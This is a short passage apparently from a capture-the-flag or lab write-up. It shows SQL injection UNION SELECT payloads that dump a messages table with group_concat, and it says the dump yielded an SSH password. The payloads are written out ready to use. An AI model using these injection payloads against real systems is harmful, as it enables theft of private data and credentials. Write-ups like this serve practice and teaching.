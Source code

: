 ```
union select group_concat(id,message_content,user_from,user_to),null,null,null from messages
```
![](attachments/Pasted%20image%2020250623165742.png)

-> We have obtained a ssh password, but the user who this email was sent to still seems a bit unclear. So, I decided to add ':' between each field to avoid confusion

```
union select group_concat(id,0x3a,message_content,0x3a,user_from,0x3a,user_to),null,null,null from messages
```